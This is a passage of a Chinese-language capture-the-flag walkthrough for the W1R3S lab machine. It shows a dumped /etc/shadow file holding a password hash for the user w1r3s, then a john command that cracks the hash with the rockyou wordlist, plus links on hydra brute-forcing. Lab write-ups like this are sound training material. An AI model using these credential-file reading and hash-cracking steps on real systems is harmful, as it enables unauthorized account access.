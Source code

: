 ```shell
kernoops:*:17379:0:99999:7:::
pulse:*:17379:0:99999:7:::
rtkit:*:17379:0:99999:7:::
saned:*:17379:0:99999:7:::
usbmux:*:17379:0:99999:7:::
w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.:17567:0:99999:7:::
sshd:*:17554:0:99999:7:::
ftp:*:17554:0:99999:7:::
mysql:!:17554:0:99999:7:::
    </div>
</div>                                                                                                                               

```

-   看来之前从ftp文件中获取的用户名都是诱导～ 真实用户只有`root`和`w1r3s`
-   将文件内容写入到hash文件中

## 密码破解

-   使用john来进行爆破枚举

    ```shell
    john --wordlist=/usr/share/wordlists/rockyou.txt hash 
    ```

-   获得密码后登陆即可！



Note:

-   [字符串反转](https://www.upsidedowntext.com/)
-   [文本反转，字符串反转](http://tool.huixiang360.com/str/reverse.php)
-   [--data-urlencode][https://everything.curl.dev/http/post/url-encode]
-   [hydra暴力破解][https://zhuanlan.zhihu.com/p/397779150]
